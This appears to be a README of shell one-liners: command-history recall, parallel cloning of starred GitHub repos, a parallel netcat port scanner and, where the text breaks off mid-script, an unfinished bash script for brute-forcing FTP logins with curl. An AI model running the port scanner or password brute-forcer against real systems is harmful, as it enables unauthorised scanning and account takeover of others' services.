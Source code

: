 ### Below will open your editor andt paste the last 20 commands you used in cli

```sh
fc -1 -20
```

### Clone starred github repos in parallel with unlimited speed, clone `20` repos in `parallel`.

[Also shared here](https://www.commandlinefu.com/commands/view/26591/clone-starred-github-repos-in-parallel-with-unlimited-speed-this-example-will-clone-25-repositories-in-parallel-at-same-time.)

```sh
GITUSER=$(whoami); 
curl "https://api.github.com/users/${GITUSER}/starred?per_page=1000" \
    |grep -o 'git@[^"]*' \
    |parallel -j 25 'git clone {}'
```


### Really fast portscanner with colorized output:

65535 ports scanned in ~3.5s 

![portscan](https://user-images.githubusercontent.com/26827453/177014274-d1fda5b4-83a5-4a7b-9bfe-17784ffb5ee7.gif)

```sh
seq 65535 | \
	parallel \
        -k --joblog portscan \
	-j9 \
	--pipe \
	--cat \
	-j200% \
	-n9000 \
	--tagstring '\033[30;3{=$_=++$::color%8=}m' \
	'nc -vz localhost $(head -n1 {})-$(tail -n1 {})'
```

### Bruteforce two ftp accounts at once

```sh
#!/bin/bash
# Author: wuseman
# Desc: Bruteforce 2 accounts at once

okMSG() {
    echo -e "[\e[1;32m*\e[0m] $*"
}

errMSG() {
    echo -e "[\e[1;31m*\e[0m] $*"
}

1() {
    curl ftp://host:port -u $line &> /dev/null
    [[ $? = "0" ]] &&  okMSG "Cracked password for $line" || errMSG "Bad password for $line"
}

2() {
    curl ftp://host:port -u $line1 &> /dev/null -u $line1 &> /dev/null
    [[ $? = "0" ]] &&  okMSG "Cracked password for $line1" || errMSG "Bad password for $line1"
}

while 
```